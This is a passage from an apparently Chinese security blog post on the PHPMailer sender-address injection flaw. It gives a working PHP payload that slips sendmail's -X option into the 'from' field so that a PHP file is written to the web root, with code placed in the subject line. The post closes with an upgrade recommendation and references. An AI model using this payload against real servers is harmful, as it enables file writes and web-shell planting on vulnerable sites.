 `mailPassthru()` 调用 php中的 `mail()` 函数

![1544024279(1)]({{site.url}}/images/1544024279(1).jpg)

那么我们就可以直接在服务器下写下shell了。

## 0x02 payload

```php
<?php
require 'PHPMailer/PHPMailerAutoload.php';

function send($from) {
    $mail = new PHPMailer;

    $mail->setFrom($from);
    $mail->addAddress('joe@example.net', 'Joe User');     // Add a recipient

    $mail->isHTML(true);                                  // Set email format to HTML

    $mail->Subject = '<?php phpinfo(); ?>'; //shell
    $mail->Body    = 'This is the HTML message body <b>in bold!</b>';
    $mail->AltBody = 'This is the body in plain text for non-HTML mail clients';

    if(!$mail->send()) {
        echo 'Message could not be sent.';
        echo 'Mailer Error: ' . $mail->ErrorInfo;
    } else {
        echo 'Message has been sent' . "\n";
    }

    unset($mail);
}

$address = "aaa( -X/home/www/test.php )@qq.com"; //写下日志

send($address);
```

利用这个payload，是无需PHP满足什么条件的，通用写文件Payload。

## 0x03 解决方案

所有PHPMailer的用户应该立刻升级到最新版本。



参考：

- https://github.com/PHPMailer/PHPMailer
- https://www.exploit-db.com/exploits/40968/
- http://pwnscriptum.com/